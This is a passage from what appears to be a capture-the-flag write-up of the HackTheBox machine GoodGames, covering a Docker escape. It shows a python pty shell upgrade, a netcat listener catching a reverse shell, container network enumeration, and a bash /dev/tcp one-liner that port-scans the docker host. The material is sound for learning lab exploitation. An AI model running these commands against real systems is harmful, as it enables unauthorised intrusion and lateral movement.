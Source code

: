 # Escaping Docker

I like having better shells so I'll use a python one-liner to upgrade my shell `python -c 'import pty; pty.spawn("/bin/bash")'`. I can see that I'm in a docker container because of the hostname and there is a Dockerfile in the directory

```
root@3a453ab39d3d:/backend# ls
ls
Dockerfile  project  requirements.txt
```

If we go into `/home/augustus` we can read the user.txt file. We can also see that the UID of the files are `1000` . This hints that the user augustus has mounted his home directory into this docker container.

Doing a little bit of networking enumeration by running `ip a` we can see that our ip is `172.19.0.2`. I bet that the host (being the machine running docker) is `172.19.0.1`.

```
root@3a453ab39d3d:/home/augustus# ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
5: eth0@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:13:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.19.0.2/16 brd 172.19.255.255 scope global eth0
       valid_lft forever preferred_lft forever
root@3a453ab39d3d:/home/augustus# 
```

I tried to ping the host machine and it is indeed up `64 bytes from 172.19.0.1: icmp_seq=1 ttl=64 time=0.057 ms`. I dont have nmap on this machine but I can use a bash one-liner to try and do a quick port scan on the host

```bash
for PORT in {0..100}; do timeout 1 bash -c "</dev/tcp/172.19.0.1/$PORT &>/dev/null" 2>/dev/null && echo "port $PORT is open"; done
<ull" 2>/dev/null && echo "port $PORT is open"; done
```

I then get an output of

```
┌──(root💀kali)-[~/htb/goodgames]
└─# nc -lvnp 4444                                                                                                                                                                        1 ⨯
listening on [any] 4444 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.130] 54898
/bin/sh: 0: can't access tty; job control turned off
# python -c 'import pty; pty.spawn("/bin/bash")'
root@3a453ab39d3d:/backend# for PORT in {0..100}; do timeout 1 bash -c "</dev/tcp/172.19.0.1/$PORT &>/dev/null" 2>/dev/null && echo "port $PORT is open"; done
<ull" 2>/dev/null && echo "port $PORT is open"; done
port 22 is open
port 80 is open
```
